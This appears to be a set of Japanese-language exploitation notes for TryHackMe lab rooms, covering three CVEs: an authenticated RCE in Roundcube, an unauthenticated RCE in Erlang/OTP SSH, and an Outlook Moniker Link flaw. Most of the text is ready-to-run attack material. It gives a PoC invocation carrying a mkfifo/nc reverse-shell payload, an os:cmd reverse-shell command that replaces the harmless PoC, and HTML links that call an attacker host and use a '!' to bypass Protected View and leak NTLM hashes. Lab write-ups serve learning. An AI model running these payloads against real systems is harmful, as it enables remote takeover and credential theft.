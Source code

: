 # CVE

## CVE-2025-49113 (Roundcube)

https://tryhackme.com/room/roundcubecve202549113

- [Roundcube](https://roundcube.net/) は、オープンソースウェブメールプロジェクト
- `1.5.x < 1.5.10`、`1.6.x < 1.6.11`
- RCE (Authenticated)

```sh
git clone https://github.com/fearsoff-org/CVE-2025-49113
cd CVE-2025-49113/

# 必ず成功するとは限らないので、何度か実行してみる。
php CVE-2025-49113.php http://10.10.220.172/roundcube <user> <password> "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.13.85.243 4444 >/tmp/f"
```

## CVE-2025-32433

https://tryhackme.com/room/erlangotpsshcve202532433

https://github.com/ProDefense/CVE-2025-32433/blob/main/CVE-2025-32433.py

- Erlang/OTP SSH
- 修正：OTP-27.3.3, OTP-26.2.5.11, or OTP-25.3.2.20.
- 認証情報不要

上記 URL の PoC は無害なファイルを作るだけ。

```
file:write_file("/lab.txt", <<"pwned">>)
```

os::cmd を使うことで、任意のコードを実行できる。

```
command='os:cmd("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.13.85.243 6666 >/tmp/f").'
```

## CVE-2024-21413（Moniker Link）

https://tryhackme.com/room/monikerlink

https://github.com/CMNatic/CVE-2024-21413

- Outlook の脆弱性で、Windows netNTLMv2 hash を盗む。
- アプリケーションを指定するリンクをモニカーリンクという。
- ユーザーがリンクをクリックしたら、ローカル認証情報が指定した IP に送信される。

```sh
# 通常のモニカーリンクは保護ビューにブロックされる
<p><a href="file://ATTACKER_MACHINE/test">Click me</a></p>

# 「!」文字を入れて、保護ビューをバイパスするリンク
<p><a href="file://ATTACKER_MACHINE/test!exploit">Click me</a></p>
```
